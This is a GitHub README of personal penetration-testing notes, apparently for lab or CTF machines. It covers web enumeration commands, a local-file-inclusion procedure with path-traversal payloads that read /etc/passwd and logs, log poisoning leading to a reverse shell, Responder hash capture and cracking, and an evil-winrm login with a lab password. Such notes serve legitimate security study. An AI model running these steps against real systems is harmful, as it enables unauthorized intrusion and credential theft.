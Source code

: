 # Zero-to-Hero-Pen-Testing-Notes-

1.Always maunally ennumerate and check the source code control+u/ Check /robots.txt /sitemap.xml\
2.`gobuster dir -u http://$IP:PORT -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` -b (for bad servercode) -f (add this flag if gobuster is not returing any results for a long time) \
2.5 `wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --sc 200 http://$IP/FUZZ` \ 
2.6. Check wappalayzer to check basic info of the page. \
3. `nikto -h $IP`   
4. If you do not find any specific directory add the -f flag to go buster and rerun\
5. If you find some directory and stuck  make sure to run gobuster again with the new directory i.e http:\\$IP/newDirectory  
6. Searchsploit technologies for vulnerabiltieis

# Possible web vulnerabilities
## LFI
1. LocalFile Inclusion: We can log poision if linux based or try remote access control if Window
2. Check links ending with ?file=index.php ?book=  (Possible vulnerabilities in source code)
3. book= ../../../../etc/passwd   (Figure out if the server is hosting on **Window or apache )
4. ../../../../var/www/html/index.php  html to confirm log poisoning 
5. Add  ../ ../../../../ and check if the following following files exists.
6. /etc/passwd\ /var/log/mail/USER\  /var/log/apache2/access.log\  /proc/self/environ\  /tmp/sess_ID\ /var/lib/php5/sess_ID\ /var/log/auth/log\  
7. /windows/system32/drivers/etc/hosts (for **window host)\  Go to step 12 
8. Now that we have confirmed LFI vulnerablity, lets log poision ../../../../var/log/apache2/access.log via invalid connection request.
9. Connect to nc -nv $IP port. and insert commandline exeuction payload (This depends on what techonology it is using. php ..etc)
10. check for sucessful log poisioning ../../../../var/log/apache2/access.log&cmd=i.
11. If you receive command execution, we will insert a reversshell via url encoding. Done. (wrapped and url encode)
12. Use responder to capture. sudo python3 Responder.py -I tun0. inject file=//$MyIP/testShare in the url. Use john the ripper to match hash. 
13. john -w=/usr/share/wordlists/rockyou.txt hash.txt
14. login to window .evil-winrm -i 10.129.147.34 -u Administrator -p badminton

## Login page
1. Always check for default credentials
2. SQL injection
3. Burpite suite brute force, Hydra (use with caution can be locked out) 
4. Searchsploit Any version info of the login page? ex: pfsense 2.3.2
## Domain/Subdomain 
1. When seeing a contact page, with emails, make note of them, check if they are using some special domain \
2. change /etc/hosts and add the host name
3. gobuster vhost --append-domain -u http://$DomainName -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \

## XSS

## Getting a stable reverse shell
0. Check what language/ technology it is using ex: php, python, perl and possibly the version, to know which revershell to pick.
1. https://www.revshells.com/
2. Payloads. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python
